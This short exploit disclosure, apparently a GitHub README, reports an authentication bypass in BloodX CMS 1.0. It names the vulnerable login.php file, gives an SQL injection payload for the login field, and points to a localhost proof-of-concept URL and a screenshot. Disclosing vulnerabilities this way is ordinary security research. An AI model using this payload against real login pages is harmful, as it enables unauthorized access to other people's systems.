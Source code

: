 # BloodX-CMS  
* Exploit Title: BloodX CMS 1.0 - Authentication Bypass  
* Vulnerability: Attacker can bypass login page and access to dashboard page  
* vulnerable file : login.php  
* Parameter & Payload: '=''or'  
* Proof of Concept:
http://localhost/BloodX-master/login.php  
* POC   
![image](https://github.com/BigTiger2020/BloodX-CMS/blob/main/001.png)

